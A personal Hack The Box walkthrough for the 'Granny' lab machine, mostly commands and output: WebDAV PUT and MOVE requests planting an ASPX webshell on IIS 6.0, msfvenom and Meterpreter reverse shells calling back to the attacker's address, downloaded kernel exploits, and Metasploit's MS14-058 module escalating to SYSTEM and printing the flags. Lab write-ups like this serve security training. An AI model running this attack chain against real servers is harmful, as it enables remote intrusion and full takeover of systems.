


# grany

Microsoft(R) Windows(R) Server 2003, Standard Edition
5.2.3790 Service Pack 2 Build 3790
1 Hotfix(s) Installed.     [01]: Q147222

- Windows Server 2003 SP2
- IIS 6.0 + webdav

- Wabdav PUT .txt, MOVE .aspx
- ms14_058 : metasploit windows/local/ms14_058_track_popup_menu (worked 0xdf)
- ms14_070 : metasploit use exploit/windows/local/ms14_070_tcpip_ioctl (worked medium)
- MS14–070 : TCP/IP IOCTL Privilege Escalation 


Walktrough
- https://0xdf.gitlab.io/2019/03/06/htb-granny.html
- https://medium.com/@conma293/htb-granny-walkthrough-6053a65ff33b


## Nmap

````
# nmap -sC -sV -p 80 -oA scans/scripts PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   WebDAV type: Unkown
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Wed, 06 Mar 2019 20:13:57 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH                                                                                             
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
````


## 80



Header
````
HTTP/1.1 200 OK
Content-Length: 1433
Content-Type: text/html
Content-Location: http://10.10.10.15/iisstart.htm
Last-Modified: Fri, 21 Feb 2003 15:48:30 GMT
Accept-Ranges: bytes
ETag: "05b3daec0d9c21:358"
Server: Microsoft-IIS/6.0
MicrosoftOfficeWebServer: 5.0_Pub
X-Powered-By: ASP.NET
Date: Wed, 06 Mar 2019 20:15:03 GMT
Connection: close
````
We can tell from “X-Powered-By ASP.NET” that this specific version of IIS Server is executing .NET — which means .aspx format, as opposed to .asp


## Dav

````
# davtest -url http://10.10.10.15
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.15
********************************************************
NOTE    Random string for this session: l8Qkwc
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.10.15/DavTestDir_l8Qkwc
********************************************************
 Sending test files
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jsp
PUT     asp     FAIL
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.php
PUT     cgi     FAIL
PUT     aspx    FAIL
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.pl
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.cfm
PUT     shtml   FAIL
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jhtml
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
********************************************************
 Checking for test file execution
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
EXEC    jsp     FAIL
EXEC    php     FAIL
EXEC    pl      FAIL
EXEC    cfm     FAIL
EXEC    jhtml   FAIL
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_l8Qkwc
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jsp
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.php
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.pl
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.cfm
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jhtml
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
Executes: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
Executes: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
````

We can PUT .txt


## WebDAv : Cadaver

```
# cadaver 10.10.10.15
dav:/> ls
Listing collection `/': succeeded.
Coll:   _private                               0  avril 12  2017
Coll:   _vti_bin                               0  avril 12  2017
Coll:   _vti_cnf                               0  avril 12  2017
Coll:   _vti_log                               0  avril 12  2017
Coll:   _vti_pvt                               0  avril 12  2017
Coll:   _vti_script                            0  avril 12  2017
Coll:   _vti_txt                               0  avril 12  2017
Coll:   aspnet_client                          0  avril 12  2017
Coll:   images                                 0  avril 12  2017
        _vti_inf.html                       1754  avril 12  2017
        iisstart.htm                        1433  févr. 21  2003
        pagerror.gif                        2806  févr. 21  2003
        postinfo.html                       2440  avril 12  2017
dav:/> 
curl http://10.10.10.15/pagerror.gif => we are in the web dir.
```

## Dav manual test

````
Let PUT a text file and GET it

root@kali# echo yolo > test.txt
root@kali# curl -X PUT http://10.10.10.15/df.txt -d @test.txt 
root@kali# curl http://10.10.10.15/df.txt
yolo
-d @text.txt : the data for the request are the contents of the file text.txt.
````

Try with .asp
````
# curl -X PUT http://10.10.10.15/df.aspx -d @test.txt 
...
Error 403.1 - Forbidden: Execute access is denied.
...
````

## Dav Upload Webshell

Use KAli webshell /usr/share/webshells/aspx/cmdasp.aspx

````
$ cp /usr/share/webshells/aspx/cmdasp.aspx .
````

Now Upload it as .txt
````
$ curl -X PUT http://10.10.10.15/cmdasp.txt -d @cmdasp.aspx 
````
http://10.10.10.15/cmdasp.txt is served as text


For Binary upload

````
$ curl -X PUT http://10.10.10.15/cmdasp.txt --data-binary @cmdasp.aspx 
````

## Dav Move file

Let use the webdav MOVE command to deplace/rename our shell file.
    -X MOVE  
    -H 'Destination:http://10.10.10.15/cmdasp.aspx'  : target name
    http://10.10.10.15/cmdasp.txt - our file  


````
$ curl -X MOVE -H 'Destination:http://10.10.10.15/cmdasp.aspx' http://10.10.10.15/cmdasp.txt
````





## Method 2 : Msfvenom+cadaver

````
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=555 --platform windows -a x86 -e generic/none -f aspx -o go.txt
cadaver 10.10.10.15
ls
put go.txt
move go.txt go.aspx
ls
````
````
nc -nlvp 555
http://10.10.10.15/go.aspx
````

## Get nc

```
whoami
nt authority\network service

systeminfo
Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 1 Hours, 37 Minutes, 42 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~1996 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 777 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,316 MB
Page File: In Use:         154 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

### Exploit suggester

```
# cp ../../../tools/windows-exploit-suggester.py .

root@kali:~/htb/YoloToolbox/machines/htb/granny# python windows-exploit-suggester.py -u
[*] initiating winsploit version 3.3...
[+] writing to file 2019-09-08-mssb.xls
[*] done
root@kali:~/htb/YoloToolbox/machines/htb/granny# python windows-exploit-suggester.py -i systeminfo.txt -d 2019-09-08-mssb.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 1 hotfix(es) against the 356 potential bulletins(s) with a database of 137 known exploits
[*] there are now 356 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2003 SP2 32-bit'
[*] 
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*] 
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*] 
[E] MS14-070: Vulnerability in TCP/IP Could Allow Elevation of Privilege (2989935) - Important
[*]   http://www.exploit-db.com/exploits/35936/ -- Microsoft Windows Server 2003 SP2 - Privilege Escalation, PoC
[*] 
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*]   http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*] 
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*]   https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*]   http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*]   http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*]   http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-062: Vulnerability in Message Queuing Service Could Allow Elevation of Privilege (2993254) - Important
[*]   http://www.exploit-db.com/exploits/34112/ -- Microsoft Windows XP SP3 MQAC.sys - Arbitrary Write Privilege Escalation, PoC
[*]   http://www.exploit-db.com/exploits/34982/ -- Microsoft Bluetooth Personal Area Networking (BthPan.sys) Privilege Escalation
[*] 
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*] 
[E] MS14-040: Vulnerability in Ancillary Function Driver (AFD) Could Allow Elevation of Privilege (2975684) - Important
[*]   https://www.exploit-db.com/exploits/39525/ -- Microsoft Windows 7 x64 - afd.sys Privilege Escalation (MS14-040), PoC
[*]   https://www.exploit-db.com/exploits/39446/ -- Microsoft Windows - afd.sys Dangling Pointer Privilege Escalation (MS14-040), PoC
[*] 
[E] MS14-035: Cumulative Security Update for Internet Explorer (2969262) - Critical
[E] MS14-029: Security Update for Internet Explorer (2962482) - Critical
[*]   http://www.exploit-db.com/exploits/34458/
[*] 
[E] MS14-026: Vulnerability in .NET Framework Could Allow Elevation of Privilege (2958732) - Important
[*]   http://www.exploit-db.com/exploits/35280/, -- .NET Remoting Services Remote Command Execution, PoC
[*] 
[M] MS14-012: Cumulative Security Update for Internet Explorer (2925418) - Critical
[M] MS14-009: Vulnerabilities in .NET Framework Could Allow Elevation of Privilege (2916607) - Important
[E] MS14-002: Vulnerability in Windows Kernel Could Allow Elevation of Privilege (2914368) - Important
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-097: Cumulative Security Update for Internet Explorer (2898785) - Critical
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[M] MS13-080: Cumulative Security Update for Internet Explorer (2879017) - Critical
[M] MS13-071: Vulnerability in Windows Theme File Could Allow Remote Code Execution (2864063) - Important
[M] MS13-069: Cumulative Security Update for Internet Explorer (2870699) - Critical
[M] MS13-059: Cumulative Security Update for Internet Explorer (2862772) - Critical
[M] MS13-055: Cumulative Security Update for Internet Explorer (2846071) - Critical
[M] MS13-053: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (2850851) - Critical
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[M] MS11-080: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege (2592799) - Important
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[M] MS09-065: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (969947) - Critical
[M] MS09-053: Vulnerabilities in FTP Service for Internet Information Services Could Allow Remote Code Execution (975254) - Important
[M] MS09-020: Vulnerabilities in Internet Information Services (IIS) Could Allow Elevation of Privilege (970483) - Important
[M] MS09-004: Vulnerability in Microsoft SQL Server Could Allow Remote Code Execution (959420) - Important
[M] MS09-002: Cumulative Security Update for Internet Explorer (961260) (961260) - Critical
[M] MS09-001: Vulnerabilities in SMB Could Allow Remote Code Execution (958687) - Critical
[M] MS08-078: Security Update for Internet Explorer (960714) - Critical
[*] done
root@kali:~/htb/YoloToolbox/machines/htb/granny# 

```


## Elevzation

### MS14-058 : use windows/local/ms14_058_track_popup_menu

Use metasploit...

### ‘KiTrap0D’ MS10–015 via Metasploit.

Use metasploit...

### MS14–070 : TCP/IP IOCTL Privilege Escalation 
https://www.exploit-db.com/exploits/37755


### MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) 

wget https://github.com/hfiref0x/CVE-2015-1701,
Not working

### MS14-070

# wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS14-070/MS14-070.rar
unrar x MS14-070/MS14-070.rar
cp MS14-070/MS14-070.exe .

dav:/> put MS14-070.exe MS14-070.txt
Uploading MS14-070.exe to `/MS14-070.txt':
Progress: [=============================>] 100,0% of 33812 bytes succeeded.
dav:/> move MS14-070.txt MS14-070.exe
Moving `/MS14-070.txt' to `/MS14-070.exe':  succeeded.
dav:/> 


cd C:\Inetpub\wwwroot

## Meterpreter

```
# msfvenom -p windows/meterpreter/reverse_tcp  LHOST=10.10.14.32 LPORT=4446 --platform windows -a x86 -e generic/none -f aspx -o reverse_meter.txt

put reverse_meter.txt
move reverse_meter.txt reverse_meter.aspx

http://10.10.10.15/reverse_meter.aspx

# msfconsole
                                                  
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 10.10.14.32
lhost => 10.10.14.32
msf exploit(multi/handler) > set lport 4446
lport => 4446
msf exploit(multi/handler) >  set ExitOnSession false
ExitOnSession => false
msf exploit(multi/handler) > exploit -j     : sessions in background
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.10.14.32:4446 
msf exploit(multi/handler) > [*] Sending stage (179779 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.32:4446 -> 10.10.10.15:1033) at 2019-09-08 16:14:23 +0200

msf exploit(multi/handler) > 


## Meterpreter exploit suggester

```
msf exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\NETWORK SERVICE @ GRANNY  10.10.14.32:4446 -> 10.10.10.15:1033 (10.10.10.15)

msf post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 40 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf post(multi/recon/local_exploit_suggester) > 

```

## Meterpreter : ms14_058 : exploit/windows/local/ms14_058_track_popup_menu
```
msf post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_058_track_popup_menu

msf exploit(windows/local/ms14_058_track_popup_menu) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
msf exploit(windows/local/ms14_058_track_popup_menu) > show options

Module options (exploit/windows/local/ms14_058_track_popup_menu):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf exploit(windows/local/ms14_058_track_popup_menu) > set session 1
session => 1
msf exploit(windows/local/ms14_058_track_popup_menu) > set lhost 10.10.14.32
lhost => 10.10.14.32
msf exploit(windows/local/ms14_058_track_popup_menu) > set lport 4449
lport => 4449
msf exploit(windows/local/ms14_058_track_popup_menu) > show target
[-] Invalid parameter "target", use "show -h" for more information
msf exploit(windows/local/ms14_058_track_popup_menu) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf exploit(windows/local/ms14_058_track_popup_menu) > run

[*] Started reverse TCP handler on 10.10.14.32:4449 
[*] Launching notepad to host the exploit...
[+] Process 2388 launched.
[*] Reflectively injecting the exploit DLL into 2388...
[*] Injecting exploit into 2388...
[*] Exploit injected. Injecting payload into 2388...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 2 opened (10.10.14.32:4449 -> 10.10.10.15:1034) at 2019-09-08 16:20:41 +0200


c:\windows\system32\inetsrv>whoami
whoami
nt authority\system


c:\ dir /s *.txt


C:\>type 'C:\Documents and Settings\Administrator\Desktop\root.txt'
type 'C:\Documents and Settings\Administrator\Desktop\root.txt'
The filename, directory name, or volume label syntax is incorrect.

C:\>type C:\Documents and Settings\Administrator\Desktop\root.txt
type C:\Documents and Settings\Administrator\Desktop\root.txt
The system cannot find the file specified.
Error occurred while processing: C:\Documents.
The system cannot find the file specified.
Error occurred while processing: and.
The system cannot find the path specified.

C:\>type "C:\Documents and Settings\Administrator\Desktop\root.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
aa4beed1c0584445ab463a6747bd06e9
C:\>type "C:\Documents and Settings\Lakis\Desktop\user.txt"
type "C:\Documents and Settings\Lakis\Desktop\user.txt"
700c5dc163014e22b3e408f8703f67d1
C:\>
```